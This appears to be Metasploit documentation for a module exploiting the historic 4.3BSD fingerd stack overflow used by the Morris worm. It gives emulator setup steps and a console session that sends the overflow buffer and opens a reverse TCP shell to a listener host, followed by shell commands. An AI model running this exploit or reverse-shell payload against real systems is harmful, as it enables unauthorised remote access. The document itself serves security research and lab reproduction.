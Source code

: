 ## Vulnerable Application

### Description

This module exploits a stack buffer overflow in `fingerd` on 4.3BSD.

This vulnerability was exploited by the Morris worm in 1988-11-02. Cliff Stoll
reports on the worm in the epilogue of _The Cuckoo's Egg_.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen Garvin's
[guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if you're using
[Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

### Targets

```
Id  Name
--  ----
0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**RPORT**

Set this to the target port. The default is 79 for `fingerd`, but the port may
be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a BSD VAX payload. Currently, only `bsd/vax/shell_reverse_tcp` is
supported.

## Scenarios

### `fingerd` 5.1 on 4.3BSD

```
msf5 > use exploit/bsd/finger/morris_fingerd_bof
msf5 exploit(bsd/finger/morris_fingerd_bof) > show missing

Module options (exploit/bsd/finger/morris_fingerd_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (bsd/vax/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(bsd/finger/morris_fingerd_bof) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(bsd/finger/morris_fingerd_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(bsd/finger/morris_fingerd_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 127.0.0.1:79 - Connecting to fingerd
[*] 127.0.0.1:79 - Sending 533-byte buffer
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58015) at 2020-02-06 15:45:33 -0600

who am i
nobody   tty??   Feb  6 13:45
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```

